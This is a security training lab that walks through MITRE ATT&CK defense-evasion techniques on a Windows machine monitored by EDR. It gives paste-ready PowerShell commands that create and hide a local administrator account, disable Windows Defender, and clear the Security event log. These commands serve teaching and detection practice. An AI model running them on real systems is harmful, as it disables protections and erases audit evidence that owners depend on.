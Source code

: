 ```yaml
---
title: ATT&CK - Defense Evasion Phase
description: Introduce post-compromise attack behaviors and EDR defenses
author: Chris Gerritz, Datto
created: 04/07/2025
achievements:
duration: 10
range:
- Windows
applications:
- Terminal (Command prompt)
- PowerShell
- Datto EDR
- SysInternals
- Office
- Adobe Reader
external:
- attack.mitre.org
- rightofboom.infocyte.com
- 
---
```


## Description

The purpose of these labs is to introduce post-compromise attack behaviors and EDR defenses. We will perform post-compromise behaviors that an attacker would run once they compromised a system within the network.  This system has Datto EDR installed for monitoring so we will be able to view these commands from the defender's perspective as well.

Lab 4 is a light touch on some Defense Evasion techniques (such as disabling antivirus or defensive products). These techniques are often layered on the other techniques and phases to help hide that activity. In any case, when it comes to EDR and continuous monitoring, oftentimes we can use the presence of these evasion techniques as detection or confirmation that the user performing suspicious behaviors is indeed a threat.

---

## Objectives
<!--
- List all objectives for this lab
- Need at least three objectives
- Use blooms taxonomy verbs: KNOWLEDGE,UNDERSTAND, APPLY, ANALYZE, EVALUATE, CREATE
- https://www.teachthought.com/critical-thinking/blooms-taxonomy-verbs-2/
-->
1. Understand the Defense Evasion phase activities an attacker might utilize
2. Demonstrate Defense Evasion skills to disable antivirus and allow us to bring down additional malware utilities without being detected
3. Understand how we can use Defense Evasion activities to identify or confirm malicious intent

## Requirements

|                  |                             |
|------------------|-----------------------------|
| **Range**        | Windows |
| **Applications** | All applications needed     |
| **Needed Files** | None |


## Preparation Instructions

Ignore this if you already ran it in a previous lab and are re-using the same Powershell window.

1. Open powershell as an administrator
	- Right click Powershell
	- Click "Run as Administrator"
2. Prepare the enviroment with some variables we will use later
	- Run the following:
	```PowerShell
	#Define a random number (This will be used to force Datto EDR not to deduplicate repeated commands during testing)
	$n = 1000+$(Get-Random -Max 999)
	# Bypass signed script controls
	Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass -Force
	```

## Instructions
For each of these labs, you will need your Powershell window open. You can use the same window for all labs. You will be copying and pasting commands into the terminal and then evaluating the output.

w> All labs require you to be running as an administrator. 

> *While most defensive evasion will be used alongside other techniques to hide them, an explicit defense evasion phase usually will happen where the attacker will disable security tools and logging.*

### 1. Creating a new user via net.exe
*Attackers will often create users on the machine and attempt to escalate the privledges to manipulate the machine. A common technique is to use the net.exe process to silently create new users as well as escalate privleges to local administrator rights.*

[ATT&CK T1136.001-Create Account-Local Account](https://attack.mitre.org/techniques/T1136/001/)
- Copy and paste this command into the terminal:
```Powershell
Write-Host -ForegroundColor Cyan "Initiating Persistence...creating local account"
Write-Host "Creating user 'notahacker' with admin rights..."
$cmd = @"
net user notahacker Password123! /add
net localgroup administrators notahacker /add
Start-Sleep -Milliseconds $n
"@
powershell.exe -nop -command $cmd 
Write-Host -ForegroundColor Green "'notahacker' added to Administrators group successfully."

*Verify user was created.*

```Powershell
net users
```

*If command ran correctly should return*

```
User accounts for \\[USER-WORKSTATION]
-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
notahacker               [youraccount]                 WDAGUtilityAccount
```

### 2.Hiding the attacker from userlist - Defense Evasion
*Attackers will also make attempts to conceal the account, the command below, will alter the registry keys to remove the user from the userlist screen on a login screen*

- [ATT&CK T1564.002-Hide user from userlist](https://attack.mitre.org/techniques/T1564/002/)
- Copy and paste this command into the terminal:
```Powershell
	$cmd = @"
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /t REG_DWORD /f /d 0 /v "notahacker"
Start-Sleep -Milliseconds $n
"@
powershell.exe -nop -command $cmd
Write-Host -ForegroundColor Green "'notahacker' removed from userlist."
```

### 3.Use Powershell to perform a **Disable Security Tools** technique
*The method we'll demonstrate today is to disable Windows Defender, often an attacker will use a script to detect and disable whatever AV is on the system. This action requires administrator privileges. This command may not work directly if tamper protection is enabled but there are methods an attacker can use to bypass tamper protection as well.*

- [ATT&CK T1089 - Defense Evasion - Disabling Security Tools](https://attack.mitre.org/techniques/T1089)
- Copy and paste this command into the terminal:
```PowerShell
Write-Host -ForegroundColor Cyan "Initiating Defense Evasion - T1089 - Disabling Security Tools"
Write-Host "Disabling Defender..."
$cmd = @"
Set-MpPreference -DisableRealtimeMonitoring $true
Start-Sleep -Milliseconds $n
"@
powershell.exe -nop -command $cmd
```

### 4. Disabling Security Tools - Service Control Manager
> *If the above method does not work, attackers can also disable the antivirus service from the service control manager using sc.exe*

Use the Service Control Manager (sc.exe) to perform a **Disable Security Tools** technique
- [ATT&CK T1089 - Defense Evasion - Disabling Security Tools](https://attack.mitre.org/techniques/T1089)
- Copy and paste this command into the terminal:
```PowerShell
Write-Host -ForegroundColor Cyan "Initiating Defense Evasion - T1089 - Disabling Security Tools"
Write-Host "Disabling Defender..."
$cmd = @"
sc.exe config WinDefend start= disabled
sc.exe stop WinDefend
Start-Sleep -Milliseconds $n
"@
powershell.exe -nop -command $cmd
Write-Host -ForegroundColor Red "Windows Defender Disabled"
```

### 5. Removing Evidence of Activity - wevtutil.exe clear logs
*After completing certain tasks, or as part of a script, users wil conceal their tracks in an attempt to hide their activity*

- [ATT&CK T1070.001 - Defense Evasion - Windows Event Logs Cleared](https://attack.mitre.org/techniques/T1070/001/)
- Copy and paste this command into the terminal:
```PowerShell
Write-Host -ForegroundColor Cyan "Clearing Security Logs"
$cmd = @"
wevtutil.exe cl Security
Start-Sleep -Milliseconds $n
"@
powershell.exe -nop -command $cmd
Write-Host -ForegroundColor Cyan "Logs Cleared"
```